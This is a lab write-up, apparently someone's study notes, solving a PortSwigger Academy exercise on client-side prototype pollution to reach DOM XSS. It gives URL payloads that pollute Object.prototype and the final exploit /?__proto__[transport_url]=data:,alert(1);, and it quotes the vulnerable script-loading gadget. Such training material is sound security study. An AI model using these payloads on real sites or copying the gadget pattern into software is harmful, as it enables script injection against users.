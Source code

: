 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-1/"}
---
```



---

## Objective: Get DOM XSS

### Manual method

![Pasted image 20250329183244.png](/img/user/Images/Pasted%20image%2020250329183244.png)

First, we need to find a source. We can test the search function with `__prototype__` and try to inject a property, `foo` in the query string

```
/?__proto__[foo]=bar
```

We can verify it worked by opening the browser console and enter `Object.prototype.foo` and look at the return value:

if `bar` returns, we have a prototype pollution source

![Pasted image 20250329224758.png](/img/user/Images/Pasted%20image%2020250329224758.png)

Next we need a gadget, we look at sources tab and look at potential DOM XSS sinks

```javascript
async function searchLogger() {

	// The config object is created, but transport_url is NOT explicitly defined
    let config = {params: deparam(new URL(location).searchParams.toString())};

	// The Gadget
    if(config.transport_url) {
        let script = document.createElement('script');
	    
	    // The Sink, loads a script from user-controlled input
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```


So basically what is happening is when the property `transport_url` is not **explictly** defined, Javascript looks up the prototype of the object and tries to use `Object.prototype` but we already polluted that earlier with `__proto__[foo]=bar`.

We test the gadget with a random value

```
/?__proto__[transport_url]=bar
```

![Pasted image 20250329233224.png](/img/user/Images/Pasted%20image%2020250329233224.png)

Now look at the **Elements** tab and we notice that the `script` elements has been loaded with the `src` attribute `foo`

![Pasted image 20250329233324.png](/img/user/Images/Pasted%20image%2020250329233324.png)

### Exploit

Now we can simply craft an exploit to call `alert` using `data:`

```
/?__proto__[transport_url]=data:,alert(1);
```

![Pasted image 20250329233851.png](/img/user/Images/Pasted%20image%2020250329233851.png)

### Automatic method

We will be using Burpsuite's DOM Invader which is built-in Burpsuite's browser. Enable that and the Prototype Pollution option 

![Pasted image 20250330013725.png](/img/user/Images/Pasted%20image%2020250330013725.png)

![Pasted image 20250330013828.png](/img/user/Images/Pasted%20image%2020250330013828.png)

Now, get to reload the page and check DevTools **DOM Invader** tab

![Pasted image 20250330014131.png](/img/user/Images/Pasted%20image%2020250330014131.png)

We have 2 Sources available here, focus on `__proto__` and click the scan for gadgets

![Pasted image 20250330014319.png](/img/user/Images/Pasted%20image%2020250330014319.png)

In the new tab's DevTools, the scan detected the gadget with the available sink. Clicking the Exploit button will automatically give us an alert

![Pasted image 20250330014458.png](/img/user/Images/Pasted%20image%2020250330014458.png)
